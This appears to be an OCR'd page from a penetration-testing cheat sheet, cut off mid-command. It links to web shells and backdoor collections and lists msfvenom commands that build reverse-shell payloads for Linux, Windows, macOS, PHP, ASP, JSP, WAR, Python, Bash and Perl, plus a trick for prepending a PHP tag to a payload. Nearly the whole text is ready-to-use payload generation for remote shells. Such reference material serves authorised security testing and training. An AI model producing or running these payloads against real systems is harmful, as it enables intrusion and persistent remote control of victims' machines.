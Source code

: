 PHP powered web browser Shell b374k with file upload etc.
https://github.com/b374k/b374k

Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

Web Backdoors from Fuzzdb ( https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/

Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho

Web Payloads

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

Scripting Payloads

Python

msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
